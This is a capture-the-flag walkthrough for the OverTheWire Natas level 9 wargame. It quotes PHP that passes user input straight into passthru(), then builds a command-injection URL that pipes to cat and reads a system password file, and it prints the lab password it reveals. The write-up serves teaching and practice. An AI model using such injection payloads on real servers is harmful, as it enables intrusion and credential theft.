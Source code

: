 # Level 8 - Level 9: Natas - OverTheWire

## Level Goal

Username: natas9
URL:      http://natas9.natas.labs.overthewire.org

## Solution
As these levels start getting more complicated, I am going to use the web browser more often to speed up navigation. For this level, we have another input form and sourcecode:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

From what I see, it appears that the value we submit in the input form will be passed as the `needle` request parameter. This value will then be executed on the webserver using the PHP `passthru()` function. A `grep` command will then be executed, searching for our input in a `dictionary.txt` file.

The `passthru()` function is similar to the `exec()` function in that it executes a command, both of which are often susceptible to command injetion attacks when not handled with **extreme** caution.

We can verify this is the case by requesting `http://natas9.natas.labs.overthewire.org/?needle=test`, which offers several results of words in the `dictionary.txt` file that include `test`:

```html
Output:
<pre>
Protestant
Protestant's
Protestants
abruptest
```

Now, to test if this is vulnerable, we can try adding a flag to `grep`. For example, searching `test` gives us several results that include the `test` characters. If we add ` -v` to the request, it will invert the match, so we should see hundreds of results that **do not** include `test`:

`http://natas9.natas.labs.overthewire.org/?needle=test%20-v` returns:

```html
Output:
<pre>

African
Africans
Allah
Allah's
American
Americanism
```

## Exploit payload

Since we were able to "inject" an additional flag to the executed command, this looks like it may be vulnerable!

To skip the trial and error, I eventually found out it was possible to pipe the end of the command (`|`) and execute the `cat` command. Using a similar directory traversal attack like in `Level 06 - 07`, we can `cat` the `../../../../etc/natas_webpass/natas10` file to reveal the password.

In the below URL, notice the spaces are URL-encoded to `%20`:

`http://natas9.natas.labs.overthewire.org/?needle=test%20|%20cat%20../../../../etc/natas_webpass/natas10`

And we get the following output, containing the password:

```html
Output:
<pre>
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

African
Africans
Allah
Allah's
...
...
...
```